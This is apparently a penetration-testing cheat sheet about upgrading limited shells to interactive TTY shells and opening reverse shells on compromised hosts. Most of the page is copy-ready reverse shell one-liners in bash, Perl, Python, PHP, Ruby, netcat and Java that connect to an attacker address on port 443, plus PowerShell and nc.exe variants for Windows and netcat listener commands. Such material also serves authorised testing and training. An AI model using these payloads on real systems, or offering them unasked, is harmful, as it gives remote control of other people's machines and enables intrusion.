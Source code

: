 ## Non-interactive tty-shell

If you have a non-tty-shell you're limited in your ability to operate. This can happen if you upload reverse shells to a webserver and get a shell such as www-data. These users are not meant to have shells as they don't interact with the system.

So if you don't have a tty-shell you can't run `su`, `sudo` for example. This can be annoying if you manage to get a root password but you can't use it.

If you get one of these shells you can upgrade it to a tty-shell using the following methods:

Stabilizing the shell:
```bash
script /dev/null -c /bin/bash
CTRL + Z
stty raw -echo; fg
Then press Enter twice:
export TERM=xterm
```

**Using python**
```bash
# Python2
python -c 'import pty; pty.spawn("/bin/sh")'

# Python3
python3 -c "import pty; pty.spawn('/bin/sh')"
```

**Echo**
```bash
echo 'os.system('/bin/bash')'
```

**sh**
```bash
/bin/sh -i
```

**bash**
```bash
/bin/bash -i
```

**Perl**
```bash
perl -e 'exec "/bin/sh";'
```

**From within VI**
```bash
:!bash
```

## Interactive tty-shell

So if you manage to upgrade to a non-interactive tty-shell you will still have a limited shell. You won't be able to use the up and down arrows, you won't have tab-completion. This might be really frustrating if you stay in that shell for long. It can also be more risky, if a execution gets stuck you cant use Ctr-C or Ctr-Z without killing your session. However that can be fixed using socat. Follow these instructions.

[https://github.com/cornerpirate/socat-shell](https://github.com/cornerpirate/socat-shell)

# Listeners
```bash
# Netcat
[sudo] rlwrap nc -nvlp <port>
```

## Payloads
https://www.revshells.com/

### Linux
```bash
# bash
/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.10.10/443 0>&1"

# Perl
perl -e 'use Socket;$i="10.10.10.10";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# PHP
php -r '$sock=fsockopen("10.10.10.10",443);exec("/bin/sh -i &3 2>&3");'

# Ruby
ruby -rsocket -e'f=TCPSocket.open("10.10.10.10",443).to_i;exec sprintf("/bin/sh -i &%d 2>&%d",f,f,f)'

# Netcat : -u for UDP
nc [-u] 10.10.10.10 443 -e /bin/bash

# Netcat without -e : -u for UDP
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc [-u] 10.10.10.10 443 > /tmp/f

# Java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5/dev/tcp/10.10.10.10/443;cat &5 >&5; done"] as String[])
p.waitFor()
```
PHP reverse shell available [here](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) or locally `/usr/share/webshells/php/php-reverse-shell`

Python PTY shells available [here](https://github.com/infodox/python-pty-shells)
### Windows
PowerShell reverse shell available [here](https://github.com/samratashok/nishang) PHP reverse shell available [here](https://github.com/Dhayalanb/windows-php-reverse-shell) Netcat for Windows available [here](https://eternallybored.org/misc/netcat/)
```powershell
# PowerShell
cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 shell.ps1
vi shell.ps1
# go to end of file, paste the following
Invoke-PowerShellTcp -Reverse -IPAddress [attacker_ip] -Port [attacker_port]
# close, reverse shell ready to use

# Netcat - use x64 or x32 as per target. powershell.exe or cmd.exe
nc.exe x.x.x.x <port> -e powershell.exe
```